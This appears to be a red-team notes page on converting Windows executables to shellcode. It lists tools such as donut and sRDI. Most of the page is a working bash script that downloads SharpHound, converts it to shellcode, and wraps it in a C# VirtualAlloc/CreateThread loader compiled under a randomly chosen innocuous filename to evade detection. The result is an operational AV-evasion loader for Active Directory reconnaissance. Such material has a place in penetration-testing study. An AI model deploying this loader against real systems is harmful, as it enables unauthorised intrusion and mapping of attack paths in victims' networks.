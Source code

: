 ```
```




## PE to Shellcode

- [https://github.com/monoxgas/sRDI](https://github.com/monoxgas/sRDI)
- [https://github.com/TheWover/donut](https://github.com/TheWover/donut)
- [https://github.com/hasherezade/pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode)
- [https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/)
- [https://github.com/paranoidninja/PIC-Get-Privileges](https://github.com/paranoidninja/PIC-Get-Privileges)

[Example](https://github.com/l4ckyguy/ukn0w/commit/0823f51d01790ef53aa9406f99b6a75dfff7f146) with [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) and donut (C# cross-compilation is done with [Mono](https://www.mono-project.com/download/stable/)):

{% code title="sweetblood.sh" %}
```bash
RNDNAME=`curl -sL https://github.com/snovvcrash/WeaponizeKali.sh/raw/main/misc/binaries.txt | shuf -n1`
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe -qO /tmp/SharpHound.exe

# --ldapusername snovvcrash --ldappassword Passw0rd!
~/tools/PEzor/deps/donut/donut -a2 -z2 -i /tmp/SharpHound.exe -p '--CollectionMethod All,LoggedOn --NoSaveCache --OutputDirectory C:\Windows\Tasks --ZipFilename sweetbl.zip' -o /tmp/SharpHound.bin

BUF=`xxd -i /tmp/SharpHound.bin | head -n-2 | tail -n+2 | tr -d ' ' | tr -d '\n'`
BUFSIZE=`xxd -i /tmp/SharpHound.bin | tail -n1 | awk '{print $5}' | tr -d ';\n'`

cat << EOF > "/tmp/$RNDNAME.cs"
using System;
using System.Runtime.InteropServices;

namespace Sh4rpH0und
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, ulong dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[$BUFSIZE] { $BUF };
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (ulong)buf.Length, 0x1000, 0x40);
            Marshal.Copy(buf, 0, addr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
EOF

mcs -platform:x64 -t:winexe "/tmp/$RNDNAME.cs" -out:"$RNDNAME.exe"
```